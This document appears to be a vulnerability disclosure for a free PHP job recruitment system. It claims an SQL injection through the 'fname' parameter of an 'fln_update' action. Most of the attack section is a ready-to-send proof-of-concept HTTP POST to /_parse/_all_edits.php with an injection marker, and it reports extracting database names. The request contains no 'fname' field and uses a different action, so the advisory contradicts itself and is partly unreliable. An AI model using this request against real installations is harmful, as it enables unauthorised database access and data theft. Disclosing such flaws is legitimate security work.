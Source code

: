 # job-recruitment-in-php has sql injection vulnerability in fname parameter

## supplier 
https://code-projects.org/job-recruitment-in-php-css-javascript-and-mysql-free-download/
## Vulnerability file
fname parameter in fln_update action 

## describe

 Fname parameter .An unrestricted SQL injection attack exists in a job-recruitmentsystem. The parameters that can be controlled are as follows:  fname  parameter . This function executes the fname parameter into the SQL statement without any restrictions. A malicious attacker could exploit this vulnerability to obtain sensitive information in the server database.

**Code analysis**    

When the parameter value of   $_POST['fname'] is obtained in fln_update action , it will be concatenated into SQL statements and executed, which has a SQL injection vulnerability. 

![image-20241226012551848](https://github.com/user-attachments/assets/c6b09816-3c72-4386-a85b-8f18a0518003)

## POC

```
POST /_parse/_all_edits.php HTTP/1.1
Host: airecruitmentsystem
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:133.0) Gecko/20100101 Firefox/133.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 67
Origin: http://airecruitmentsystem
Connection: close
Referer: http://airecruitmentsystem/_parse/_all_edits.php
Cookie: PHPSESSID=etso55q58ionvmrvpetmaf8urt
Upgrade-Insecure-Requests: 1
Priority: u=0, i

jid=1&degree=2&jobtitle=1&action=edit_jobpost&jobtype=1*&deadline=1
```

**Result**

get databases name

![image-20241226012813072](https://github.com/user-attachments/assets/564064c0-982a-4295-8662-60053cafb360)
